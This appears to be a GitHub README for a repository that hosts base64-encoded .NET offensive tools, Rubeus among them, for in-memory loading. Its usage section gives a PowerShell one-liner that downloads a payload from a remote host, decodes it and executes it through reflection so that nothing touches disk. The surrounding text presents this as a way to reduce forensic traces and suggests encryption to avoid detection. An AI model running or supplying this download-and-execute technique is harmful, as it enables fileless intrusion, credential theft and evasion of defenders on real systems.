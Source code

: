 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading. For this to work the host has to be able to access githubusercontent.com. The reason for adding the Powershell v1.0 is because syswow64 lets you run 32 bit system executables from 64 bit code. Sysnative lets you run 64 bit system executables from 32 bit code.

# Tools currently available:
- ProcessManager
- Rubeus
- UrbanBishop

# Usage:
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/txt/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

The above removes steps of downloading the binary and converting it into Assembly. Removes the binary from going on-disk and straight into memory. Operationally its a little bit cleaner on system forensics - If network capture is enabled on the environment the technique can be identified. You can add some sort of encryption to avoid detection.

*Disclaimer: The things you do with the tools in this repository are only liable with the offending operator(s).*
